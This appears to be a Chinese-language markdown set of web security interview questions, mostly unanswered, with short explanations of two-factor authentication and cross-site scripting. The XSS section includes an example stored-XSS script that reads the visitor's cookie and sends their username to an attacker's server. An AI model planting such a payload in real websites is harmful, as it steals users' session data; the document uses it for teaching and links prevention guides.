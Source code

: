 1. [什么是代码安全？在你的观点中，这个是开发者的责任，还是公司需要专门的角色？](#1-shen-me-shi-dai-ma-an-quan-zai-ni-de-guan-dian-zhong-zhe-ge-shi-kai-fa-zhe-de-ze-ren-hai-shi-gong-si-xu-yao-zhuan-men-de-jiao-se)
2. [为什么密码学是一些你自己不需要重新发明和设计的事情？](#2-wei-shen-me-mi-ma-xue-shi-yi-xie-ni-zi-ji-bu-xu-yao-zhong-xin-fa-ming-he-she-ji-de-shi-qing)
3. [什么是双因素认证(Two Factor Authentication)？在一个已有的Web应用中，你如何实现这种机制？](#3-shen-me-shi-shuang-yin-su-ren-zheng-two-factor-authentication-zai-yi-ge-yi-you-de-web-ying-yong-zhong-ni-ru-he-shi-xian-zhe-zhong-ji-zhi)
4. [如果不是仔细处理，存在日志中包含敏感信息的风险，比如密码？如何处理这些事情呢？](#4-ru-guo-bu-shi-zai-xi-chu-li-cun-zai-ri-zhi-zhong-bao-han-min-gan-xin-xi-de-feng-xian-bi-ru-mi-ma-ru-he-chu-li-zhe-xie-shi-qing-ne)
5. [编写代码能够被SQL注入影响，并修改它；](#5-bian-xie-dai-ma-neng-gou-bei-sql-zhu-ru-ying-xiang-bing-xiu-gai-ta)
6. [能够通过代码静态检查分析来检测SQL注入，能够给出大致的思路；](#6-neng-gou-tong-guo-dai-ma-jing-tai-jian-cha-fen-xi-lai-jian-ce-sql-zhu-ru-neng-gou-gei-chu-da-zhi-de-si-lu)
7. [什么是 Cross-Site Scripting?](#7-shen-me-shi-crosssite-scripting)
8. [什么是Cross-Site Forgery Attack?](#8-shen-me-shi-crosssite-forgery-attack)
9. [HTTPS是如何工作的？](#9-https-shi-ru-he-gong-zuo-de)
10. [什么是中间人攻击（Man-in-the-middle Attack)? HTTPS如何保护的？](#10-shen-me-shi-zhong-jian-ren-gong-ji-maninthemiddle-attack-https-ru-he-bao-hu-de)
11. [怎样防止用户的会话（session）被偷？](#11-zen-yang-fang-zhi-yong-hu-de-hui-hua-session-bei-tou)


## 1 什么是代码安全？在你的观点中，这个是开发者的责任，还是公司需要专门的角色？
*todo*
## 2 为什么密码学是一些你自己不需要重新发明和设计的事情？
*todo*
## 3 什么是双因素认证(Two Factor Authentication)？在一个已有的Web应用中，你如何实现这种机制？
双因素认证也叫做两步验证，这是一种安全认证过程这样用户可以提两种不同的认证因素来验证用户身份。这个方式比传统的单因素，比如用户名和密码安全得多。双因素认证的过程是这样的，当你需要访问敏感数据来源的的时候，除了需要输入用户名和密码之外，还需要提供第二种认证输入，比如秘钥或者生物特征因素。
对于认证因素，主要有以下几种：

1. 认知认证：这是用户已知的信息，比如密码，PIN(个人身份号码)，
2. 拥有认证：比如以下 ID 卡，安全 token，手机，移动设备或者只能手机的 app，
3. 生物认证：比如用户身体指纹，视网膜等等，
4. 位置认证：尝试授权的设备需要在特定的位置范围，
5. 时间认证：授权只允许在特定的时间窗口内完成

那么双因素认证的过程是怎样的呢?

1. 用户在应用程序后者网站被提示登录
2. 用户输入用户名和密码
3. 网站或者应用程序提示进行第二部验证，在这一步可以选择多个认证方式，比如安全 Token, ID 卡等等
4. 在第三步中，用户输入上一步实时生成的代码
5. 如果提供了两步认证，用户被授权访问敏感数据

## 4 如果不是仔细处理，存在日志中包含敏感信息的风险，比如密码？如何处理这些事情呢？
*todo*
## 5 编写代码能够被SQL注入影响，并修改它；
*todo*
## 6 能够通过代码静态检查分析来检测SQL注入，能够给出大致的思路；
*todo*
## 7 什么是 Cross-Site Scripting?
Cross-Site Scripting 也叫做 XSS ，它允许攻击者将客户端代码侵入到用户的的浏览的页面中。为什么它可以做到这一点呢？因为它绕过了同源策略（Same Origin Policy)。

所谓同源策略也就是说浏览器针对同一个站点的内容都授予权限来访问资源，比如说 cookie 什么的。如果网站内容下面三者相同，就表明是同源的
1. URI schema 相同
2. host 名相同
3. port 相同

攻击者将有问题的脚本（一般为代码）通过安全的网站分发给浏览这个网站的用户，由于脚本现在属于同源的内容，因此有权限访问一些敏感的数据，并且将它们发送给攻击者，这样完成了数据窃取。
假设现在有一个相亲网站，你是其中的一名会员，不过你想知道有哪些人访问了你的主页。你可以在自我介绍的的输入框的最后，添加上这么一段代码
```js
<script> 
let cookie = document.cookie;
let userName = getUsername("https://www.binddate.com", cookie);
sendUserNameToMyServer("https://www.myserver.com", userName);
</script>
```

这样在别的会员在用浏览器加载你的主页的时候，你的自我介绍就会被从数据库中加载到用户的浏览器中。但是最后的 `script` 标签会被浏览器执行，由于是同源上的内容，所以正在浏览的用户的 cookie 就会被访问，进而读取到用户的姓名，完成了数据的窃取。

XSS 主要分为四种
1. Reflected. 这是大部分 XSS 的类型，它是由客户端提供的内容导致的。一般的搜索或者提交的 Web 应用都会返回用户的输入。如果用户的提交的的内容是攻击的代码，那么就可能导致问题的出现。
2. Stored: 这种类型是用户的攻击的代码存储在数据库中，而且能够将这个脚本发送给所有正常的页面。比如上面的例子就是这种类型。
3. Server-side versus DOM-based vulnerabilities: 这是将渲染和业务逻辑放置在客户端引出的 XSS 攻击
4. Mutated: 这是一种看上去安全的内容，但是但是它能够通过浏览器重写，修改和解析标记文本，比如少些一个闭合的方括号。

既然出现了 XSS 的攻击，就有办法阻止这种攻击

- [XSS 检查清单](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOM 类型检查清单](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [代码 Review 注意事项](https://owasp.org/www-project-code-review-guide/migrated_content)
## 8 什么是Cross-Site Forgery Attack?
*todo*
## 9 HTTPS是如何工作的？
*todo*
## 10 什么是中间人攻击（Man-in-the-middle Attack)? HTTPS如何保护的？
*todo*
## 11 怎样防止用户的会话（session）被偷？
*todo*